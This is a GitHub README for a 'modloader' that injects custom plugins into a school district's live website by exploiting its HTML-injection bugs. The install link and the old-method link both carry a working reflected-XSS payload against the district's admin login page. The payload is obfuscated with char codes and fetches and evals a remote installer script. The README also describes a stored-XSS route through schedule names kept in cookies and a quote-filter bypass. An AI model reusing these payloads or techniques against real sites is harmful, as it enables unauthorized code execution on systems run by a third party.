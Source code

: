 ${{\color{#a80f1f}\Huge{\textsf{R}}}}{{\color{#a80d24}\Huge{\textsf{H}}}}{{\color{#a80c2a}\Huge{\textsf{S}}}}{{\color{#a80b2e}\Huge{\textsf{-}}}}{{\color{#a70c33}\Huge{\textsf{M}}}}{{\color{#a70d38}\Huge{\textsf{o}}}}{{\color{#a60f3c}\Huge{\textsf{d}}}}{{\color{#a51241}\Huge{\textsf{l}}}}{{\color{#a31445}\Huge{\textsf{o}}}}{{\color{#a21749}\Huge{\textsf{a}}}}{{\color{#a01a4d}\Huge{\textsf{d}}}}{{\color{#9e1d51}\Huge{\textsf{e}}}}{{\color{#9c2055}\Huge{\textsf{r}}}}$
<br><br>An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

> [!WARNING]  
> ***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

## Installing
<a href="https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>">
  <img src="images/rps-RHS-watch.png" width="100" height="100" alt="Click To Install">
</a><br><br>Click the circle.

## Features
- Completely custom theme/plugin support using js/css with headers for name, author, description, and version
- Saving state of enabled plugins/themes and loading them on site launch
- CTRL + Y keybind to wipe everything in the case of something going wrong or a mod goes haywire
- Floating Monaco text editor window (vscode) built in to the site to develop and edit mods in-site
- As this is unfinished, this is not the full list of features. more will be added soon.

## Currently working on:
- A bunch of smaller mods
- Timer improvements [Will be pushed to store]
- Store should have some sort of account based verification but accounts get blocked because the domain administrator has to allow sign-ins. I'm not exactly sure how to get around this.
    - Thinking I do manual review so it works

## Planned (by priority)
- Groups of mods in folders where the entire folder can be toggled on/off
- Permanent working link, including weekends
- Store to one-click download mods
- Accounts? Would also make store better
- Electron app

# [MOD MAKING GUIDE](https://github.com/PoyOzk/RHS-Modloader/wiki)

## OLD INSTALLATION METHOD

~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

## How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
